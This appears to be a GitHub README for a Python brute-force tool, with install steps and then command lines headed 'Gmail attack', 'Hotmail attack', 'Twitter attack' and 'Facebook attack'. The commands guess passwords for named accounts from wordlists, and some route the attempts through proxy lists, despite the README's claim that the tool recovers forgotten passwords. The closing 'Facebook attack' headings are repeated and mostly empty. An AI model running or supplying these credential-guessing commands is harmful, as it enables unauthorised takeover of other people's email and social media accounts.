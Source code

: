 # brute 
this tool using password guessing you forgot your passwords 

# Installation 


git clone https://github.com/Khalidhusain786/brute.git 

sudo apt install python3 python3-pip

pip3 install proxylist

pip3 install mechanize 

python3 brute.py -h

# Gmail attack 


python3 brute.py -g Account@gmail.com -l File_list

python3 brute.py -g Account@gmail.com -p Password.txt 


# Hotmail attack 


python3 brute.py -t Account@hotmail.com -l File_list

python3 brute.py -t Account@hotmail.com -p Password_Single 


# Twitter attack 

python3 brute.py -T Account_Twitter -l File_list

python3 brute.py -T Account_Twitter -l File_list -X proxy-list.txt


# Facebook attack 

python3 brute.py -f Account_facebook -l File_list

python3 brute.py -f Account_facebook -l File_list -X proxy-list.txt 

# Facebook attack 

python3 brute.py -f Account_facebook -l File_list

python3 brute.py -f Account_facebook -l File_list -X proxy-list.txt 

# Facebook attack 

 

# Facebook attack 

 

# Facebook attack 

 









